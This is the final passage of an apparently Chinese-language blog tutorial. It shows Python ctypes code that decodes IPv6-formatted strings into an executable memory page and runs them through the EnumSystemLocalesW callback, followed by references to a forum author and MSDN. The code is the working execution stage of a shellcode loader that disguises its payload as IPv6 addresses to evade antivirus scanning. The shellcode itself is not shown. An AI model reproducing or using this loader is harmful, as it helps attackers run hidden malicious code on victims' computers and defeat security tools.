rwxpage = ptr_realloc_2
for i in range(len(ipv6_list)):
    ctypes.windll.Ntdll.RtlIpv6StringToAddressA(ipv6_list[i], ipv6_list[i], rwxpage)
    rwxpage += 16

ctypes.windll.kernel32.EnumSystemLocalesW(ptr_realloc_2, 0)
```


## 参考

- [XG小刚](https://forum.butian.net/index.php/people/4733/community)
- [MSDN](https://learn.microsoft.com/zh-cn/)